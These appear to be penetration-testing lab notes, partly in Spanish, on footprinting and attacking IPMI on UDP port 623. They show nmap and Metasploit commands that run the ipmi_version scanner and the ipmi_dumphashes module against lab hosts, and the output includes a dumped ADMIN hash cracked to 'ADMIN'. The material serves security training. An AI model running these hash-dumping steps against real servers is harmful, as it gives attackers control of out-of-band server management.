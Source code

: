 
Intelligent Platform Management Interface (IPMI) es un conjunto de especificaciones estandarizadas para sistemas de gestión de host basados en hardware que se utilizan para la gestión y monitorización de sistemas. Actúa como un subsistema autónomo y funciona independientemente de la BIOS, la CPU, el firmware y el sistema operativo subyacente del host. IPMI ofrece a los administradores de sistemas la posibilidad de gestionar y supervisar los sistemas aunque estén apagados o no respondan. Funciona mediante una conexión de red directa al hardware del sistema y no requiere acceso al sistema operativo a través de un intérprete de comandos de inicio de sesión. IPMI también se puede utilizar para actualizaciones remotas de sistemas sin necesidad de acceso físico al host de destino. IPMI se utiliza normalmente de tres maneras:

# Footprinting the Service

```c
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

```c
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Metasploit Dumping Hashes

```c
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```